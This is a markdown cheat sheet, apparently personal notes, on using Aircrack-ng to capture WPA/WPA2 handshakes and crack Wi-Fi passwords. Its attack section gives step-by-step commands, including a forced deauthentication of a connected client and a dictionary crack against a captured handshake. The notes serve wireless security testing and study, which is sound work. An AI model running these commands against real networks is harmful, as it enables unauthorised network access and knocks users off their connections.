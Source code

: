 # Aircrack-ng

## General

Show interfaces, chipsets and drivers:


```bash

airmon-ng

```

Start monitor mode on specific interface (network card):


```bash

sudo airmon-ng start wlx0008caa46de5

```


Start packet capture on specific interface (network card):

```bash

sudo airodump-ng wlx0008caa46de5

```

Test packet injection and quality:

```bash

sudo aireplay-ng --test wlan0mon

```

Crack a WEP or WPA key without user intervention and collaborate with WPA cracking statistics:

```bash

besside-ng

```

## Tests

### Test capabilities (monitor mode and package injection)

- start monitor mode for specific wi-fi interface (`wlan0` - wi-fi interface from `iwconfig` list):

```bash

sudo airmon-ng start wlan0

```
- unblock (from soft block) wi-fi interfaces if needed (optional):

```bash

sudo rfkill unblock all

```

- test capabilities (`wlan0mon` - new wi-fi interface which should appear after monitor mode was enabled during previous step):

```bash

sudo aireplay-ng --test wlan0mon

```

## Attacks

### WPA/WPA2 Dictionary Attack

- find out the BSSID of the access point;

- decide on the wordlist that should be used for the attack;

- capture a legitimate user connecting to the access point;

- generate the authentication traffic;

- capture a legitimate user connecting to the access point;

- execute the dictionary attack;

#### Method 1 (not complete) - steps

- find virtualized Kali Linux LAN adapter that were successfully bridged to current device using `iwconfig`;

- turn off LAN adapter using `sudo ifconfig wlan0 down`;

- put LAN adapter into 'monitor mode' using `sudo iwconfig wlan0 mode monitor`;

- turn on LAN adapter using `sudo ifconfig wlan0 up`;

- confirm that LAN adapter is in 'monitor mode' using `iwconfig`;

- find the BSSID and chanel of the access point using `sudo airodump-ng wlan0`;

- capture the 4-way authentication handshake for the AP: `sudo airodump-ng --bssid 00:11:22:33:44:55:66 --channel 1 --write wepcracking wlan0`;

- crack the password using following command: `sudo aircrack-ng wepcracking-01.cap` (`wepcracking-01.cap` - file which were generated by previous command);

#### Method 2 (complete, tested) - steps

- find virtualized Kali Linux LAN adapter that were successfully bridged to current device using `iwconfig`;

- turn off LAN adapter using `sudo ifconfig wlan0 down`;

- put LAN adapter into 'monitor mode' using `sudo iwconfig wlan0 mode monitor`;

- turn on LAN adapter using `sudo ifconfig wlan0 up`;

- confirm that LAN adapter is in 'monitor mode' using `iwconfig`;

- find the BSSID and chanel of the access point using `sudo airodump-ng wlan0` (upper `BSSID` - MAC of access point, lower `BSSID` - MAC of access point, lower `STATION` - MAC of client);

- capture the 4-way authentication handshake for the AP using `sudo airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0` (`BSSID` of access point);

- deauthenticate the wireless client in order to capture the handshake (may need to run multiple times, optional step) using `sudo aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0` (`BSSID` of AP then client);

- crack the password using dictionary using `sudo aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap`;

#### Notes

WPA/WPA2 supports many types of authentication beyond pre-shared keys. Aircrack-ng can ONLY crack pre-shared keys. So make sure airodump-ng shows the network as having the authentication type of PSK, 
otherwise, don't bother trying to crack it. Only plain brute force techniques can be used against WPA/WPA2. 

